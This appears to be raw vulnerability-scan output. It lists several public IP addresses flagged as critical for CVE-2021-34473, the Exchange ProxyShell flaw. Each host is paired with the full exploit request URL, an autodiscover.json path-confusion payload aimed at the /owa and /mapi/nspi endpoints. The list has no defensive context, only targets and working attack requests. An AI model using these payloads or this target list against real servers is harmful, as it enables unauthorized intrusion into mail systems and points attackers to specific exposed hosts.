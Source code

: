 [CVE-2021-34473] [http] [critical] https://185.207.25.84/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 185.238.104.89  
  
---  
[CVE-2021-34473] [http] [critical] https://185.238.104.89/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://185.238.104.89/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 185.27.192.95  
  
---  
[CVE-2021-34473] [http] [critical] https://185.27.192.95:8443/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://185.27.192.95:8443/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 185.27.194.227  
  
---  
[CVE-2021-34473] [http] [critical] https://185.27.194.227/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://185.27.194.227/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 188.130.241.189  
  
---  
[CVE-2021-34473] [http] [critical] https://188.130.241.189/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://188.130.241.189/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 188.187.121.41  
  
---  
[CVE-2021-34473] [http] [critical] https://188.187.121.41/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://188.187.121.41/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 188.35.186.239  
  
---  
[CVE-2021-34473] [http] [critical] https://188.35.186.239/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  